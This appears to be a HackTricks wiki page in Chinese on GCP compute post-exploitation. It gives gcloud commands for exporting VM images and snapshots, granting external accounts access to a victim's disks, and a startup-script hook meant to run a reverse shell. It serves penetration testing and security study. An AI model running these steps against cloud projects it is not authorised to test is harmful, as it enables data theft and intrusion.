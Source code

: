 # GCP - 计算后渗透

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

- 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
- 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
- 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[NFTs收藏品](https://opensea.io/collection/the-peass-family)
- **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**。**
- 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 计算

有关计算和VPC（网络）的更多信息，请查看：

{% content-ref url="../../gcp-pentesting/gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-pentesting/gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### 导出和本地检查镜像

这将允许攻击者**访问已存在镜像中包含的数据**或**创建正在运行的VM的新镜像**并访问其数据，而无需访问正在运行的VM。

可以将VM镜像导出到存储桶，然后使用以下命令下载并在本地挂载：

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

在执行此操作之前，攻击者可能需要对存储桶拥有权限，当然还需要对**cloudbuild拥有权限**，因为它是将被要求执行导出的**服务**\
此外，为了使此操作生效，codebuild SA和compute SA需要特权权限。\
cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` 需要:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

而SA `<project-id>-compute@developer.gserviceaccount.com` 需要:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### 导出和本地检查快照和磁盘

无法直接导出快照和磁盘，但可以**将快照转换为磁盘，磁盘转换为映像**，然后根据**上一节**的步骤，导出该映像以在本地检查
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### 检查创建虚拟机的镜像

为了访问存储在镜像中的数据或者在攻击者创建镜像的**运行中的虚拟机**内的数据，可以授予外部帐户对该镜像的访问权限：
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
然后从中创建一个新的虚拟机：
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
如果您无法将外部帐户访问权限授予镜像，您可以在受害者项目中使用该镜像启动虚拟机，并使元数据执行反向 shell 以访问该镜像，添加参数：
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### 检查快照/磁盘并将其附加到VM

为了访问**存储在磁盘或快照中的数据，您可以将快照转换为磁盘，磁盘转换为映像，然后按照先前的步骤操作。**

或者您可以**授予外部帐户对磁盘的访问权限**（如果起点是快照，则授予对快照的访问权限或从快照创建磁盘）：
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**将磁盘**附加到实例：
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
挂载磁盘到虚拟机内部：

1. **SSH登录虚拟机**：

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **识别磁盘**：进入虚拟机后，通过列出磁盘设备来识别新磁盘。通常可以在 `/dev/sdb`、`/dev/sdc` 等路径下找到它。
3. **格式化并挂载磁盘**（如果是新的或原始磁盘）：
*   创建挂载点：

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   挂载磁盘：

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

如果**无法将快照或磁盘授予外部项目访问权限**，可能需要在与快照/磁盘相同项目中的实例内执行这些操作。
